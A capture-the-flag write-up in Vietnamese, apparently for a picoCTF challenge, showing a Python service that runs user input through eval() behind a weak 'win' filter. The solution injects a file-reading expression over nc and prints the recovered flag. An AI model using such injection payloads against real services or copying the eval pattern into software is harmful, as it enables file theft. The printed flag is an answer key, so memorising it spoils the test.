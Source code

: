 ### Description 
> Can you figure out how this program works to get the flag?
### Solution 
- Tương tự như bài kia, bài này hàm vẫn như cũ, chỉ khác là nó có thêm 1 hàm `filter` chặn ta nhập hàm win vào 
```
def filter(user_input):
  if 'win' in user_input:
    return False
  return True


while(True):
  try:
    user_input = input('==> ')
    if( filter(user_input) ):
      eval(user_input + '()')
    else:
      print('Illegal input')
  except Exception as e:
    print(e)
```
- Nhưng, thay vì thực thi hàm win ta có thể thực thi luôn việc đọc flag.txt. Bản chất của 2 việc này đều giống nhau
```
┌──(kali㉿kali)-[~/Downloads]
└─$ nc saturn.picoctf.net 56132
==> print(open('flag.txt', 'r').read())
picoCTF{f1l73r5_f41l_c0d3_r3f4c70r_m1gh7_5ucc33d_95d44590}
'NoneType' object is not callable

```
